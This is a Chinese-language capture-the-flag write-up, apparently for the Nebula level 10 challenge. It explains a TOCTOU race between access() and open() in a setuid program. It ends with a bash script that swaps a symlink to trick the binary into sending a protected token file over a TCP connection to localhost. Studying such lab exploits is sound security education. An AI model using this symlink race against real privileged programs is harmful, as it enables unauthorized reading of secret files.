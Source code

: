 ``` c

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```

可以看到，整个程序的逻辑是首先利用`access()`函数确定用户是否对文件具有读权限，如果是的话则建立TCP连接、打开读取文件传输。

这其中的trick在于**`access()`函数检查的是进程的`real user`对于一个文件的权限，而`open()`函数操作文件的权限则是取决于`effective use`的权限**。而这两个操作是分开的，所以这就造成了[TOCTOU(time of check to time of use)](https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use)漏洞，这是一个**race condition**类型的漏洞利用。

我们可以创建一个链接文件，使得在`access()`检查的时候它链接到level10用户有读权限的文件，而在open时，使得它链接到token文件。

编写shell脚本（/tmp/flag10.sh）：

``` shell
#!/bin/bash

ln -fs /tmp/flag10.sh /tmp/flag10.ln
/home/flag10/flag10 /tmp/flag10.ln 127.0.0.1 &

for ((i = 0; i < 300; i++)); do
	echo $i > /dev/null
done

ln -fs /home/flag10/token /tmp/flag10.ln
```
